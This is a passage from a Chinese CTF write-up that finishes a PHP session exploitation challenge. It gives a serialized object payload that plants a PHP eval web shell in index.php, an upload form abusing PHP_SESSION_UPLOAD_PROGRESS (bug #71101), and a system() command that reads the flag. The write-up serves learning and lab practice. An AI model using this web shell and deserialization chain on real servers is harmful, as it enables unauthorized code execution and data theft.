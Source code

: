 ```
O:5:"Cache":4:{s:4:"data";a:3:{s:4:"name";s:23:"<?php eval($_GET[a]);?>";s:7:"message";s:5:"panda";s:5:"image";s:5:"panda";}s:2:"sj";N;s:4:"path";s:42:"/Library/WebServer/Documents/ctf/index.php";s:4:"html";N;}
```

再利用上文中提到的`PHP BUG #71101`，建立`up.html`页面，页面内容如下：

```
<form action="http://10.37.14.49/ctf/index.php" method="POST" enctype="multipart/form-data">
    <input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="panda" />
    <input type="file" name="file" />
    <input type="submit" />
</form>
```

抓包，修改`value`的值，如下图所示：

![img](https://xzfile.aliyuncs.com/media/upload/picture/20191026143120-38e1af5c-f7ba-1.png)

由于请求后，`session`会立刻被清空覆盖

![img](https://xzfile.aliyuncs.com/media/upload/picture/20191026143133-40d02590-f7ba-1.png)

因此需要不断发送请求，这里可以写脚本，也可以直接利用burp ，我偷个懒直接利用 burp ：

![img](https://xzfile.aliyuncs.com/media/upload/picture/20191026143150-4b27d8d0-f7ba-1.png)

然后index.php 的内容就会修改成以下内容：

![img](https://xzfile.aliyuncs.com/media/upload/picture/20191026143204-5312300e-f7ba-1.png)

直接向`index.php`页面发送`?a=system('cat /Library/WebServer/Documents/ctf/flag');`请求即可得到 flag

![img](https://xzfile.aliyuncs.com/media/upload/picture/20191026143654-001a577c-f7bb-1.png)

# 0x08 总结

通过本次对 `PHP session`的梳理分析，希望让你对其有了更好的认识和理解，附件为巅峰极客`lol`的源码，有兴趣的朋友可以自己试验，有问题欢迎反馈交流

# 0x09 参考

https://blog.csdn.net/m0_37421065/article/details/78930935

https://www.php.net/manual/zh/session.configuration.php

https://bugs.php.net/bug.php?id=71101

https://blog.spoock.com/2016/10/16/php-serialize-problem/

https://www.ctolib.com/topics-81497.html